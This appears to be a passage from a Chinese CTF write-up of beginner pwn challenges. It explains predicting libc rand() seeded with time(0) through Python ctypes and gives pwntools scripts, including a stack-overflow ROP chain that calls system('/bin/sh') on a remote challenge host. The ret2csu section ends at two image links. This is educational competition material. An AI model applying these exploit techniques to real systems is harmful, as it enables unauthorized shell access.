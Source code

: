```
libc = cdll.LoadLibrary('libc.so.6')#这里的libc.so.6应该可以不是固定的，只要解决问题用哪个都行。
```

这行代码使用 ctypes 库中的 cdll.LoadLibrary 函数加载了 /bin/x86_64-linux-gnu/libc.so.6 路径下的共享库，并将其赋值给了变量 libc。这样，你就可以使用 libc 变量来访问该共享库中的函数。
***也就是说，我们能用python代码调用libc中的函数\***，那么也就是说，***只要我们模仿程序里的代码，就可以生成出同样的随机数，来达到“相同的随机数”的效果，“找到”需要的flag\***

代码如下

```
from pwn import *
from ctypes import *
io = remote('47.97.58.52',40003)
#io = process('./pwn4')
elf = ELF('./pwn4')
context(os = 'linux',arch = 'amd64',log_level = 'debug')
libc = cdll.LoadLibrary('libc.so.6')
libc.srand(libc.time(0))
a = libc.rand()
b = a%100
b = b + 3
io.sendline(b'0')
sleep(0.3)
io.sendline(str(b).encode())
sleep(0.3)
io.sendline(b'1')
sleep(0.3)
io.sendline(b'2')
io.interactive()
```

#### ***[Week 1] 5. where_is_my_binsh\***

很简单的栈溢出

```
from pwn import *
#io = process('./pwn3')
io = remote('47.97.58.52',40004)
elf = ELF('./pwn3')
sys_plt = elf.plt['system']
binsh_addr = 0x404090
pop_rdi_ret = 0x401323
io.send(b'/bin/sh\x00')
io.send(b'A'*24 + p64(pop_rdi_ret) + p64(binsh_addr) + p64(0x40101a) + p64(sys_plt))
io.interactive()
```

#### ***[Week 1] 6. ret2csu\***

![img](http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-13-1024x548.png)

![img](http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-14-1024x388.png)
